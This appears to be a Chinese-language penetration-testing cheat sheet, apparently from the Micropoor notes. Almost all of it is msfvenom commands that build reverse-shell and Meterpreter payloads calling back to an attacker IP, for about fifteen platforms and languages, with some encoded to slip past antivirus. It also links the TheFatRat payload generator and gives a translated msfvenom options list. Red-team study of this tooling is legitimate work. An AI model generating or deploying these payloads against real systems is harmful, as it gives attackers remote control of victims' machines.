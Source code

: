专注APT攻击与防御
https://micropoor.blogspot.com/

**windows:**

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe

**mac:**

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f macho -o payload.macho

**android:**
//需要签名

msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f apk -o payload.apk

**powershell:**

msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1

**linux:**

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf

**php:**

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

**aspx:**

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx

**jsp:**

msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.jsp

**war:**

msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw - o payload.war

**nodejs:**

msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.js

**python:**

msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py

**perl:**

msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.pl

**ruby:**

msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.rb

**lua:**

msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.lua

**windows shellcode:**

msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c

**linux shellcode:**

msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c

**mac shellcode:**

msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c

**便捷化payload生成：**

项目地址：
https://github.com/Screetsec/TheFatRat

`root@John:~/Desktop# git clone https://github.com/Screetsec/TheFatRat.git`
//设置时需要挂墙
![](media/492800d0d4d9ed8b762c3494bc845363.jpg)
![](media/6eeb8e3d9370ca202dd0b45abe2e8756.jpg)
![](media/a43ce02f6b76b5f01b8697c215bad11d.jpg)
![](media/58459088b75ecdcc093e435a5a586638.jpg)

**附录：**

中文使用说明：
```
Options:

-p, --payload <payload> 使用指定的payload
--payload-options 列出该payload参数
-l, --list [type] 列出所有的payloads
-n, --nopsled <length> 为payload指定一个 nopsled 长度
-f, --format <format> 指定payload生成格式
--help-formats 查看所有支持格式
-e, --encoder <encoder> 使用编码器
-a, --arch <arch> 指定payload构架
--platform <platform> 指定payload平台
--help-platforms 显示支持的平台
-s, --space <length> 设定payload攻击荷载的最大长度
--encoder-space <length> The maximum size of the encoded payload

(defaults to the -s value)
-b, --bad-chars <list> 指定bad-chars 如: '\x00\xff'
-i, --iterations <count> 指定编码次数
-c, --add-code <path> 指定个win32 shellcode 文件
-x, --template <path> 指定一个 executable 文件作为模板
-k, --keep payload自动分离并注入到新的进程
-o, --out <path> 存放生成的payload
-v, --var-name <name> 指定自定义变量
--smallest Generate the smallest possible payload
-h, --help 显示帮助文件
```
>   Micropoor
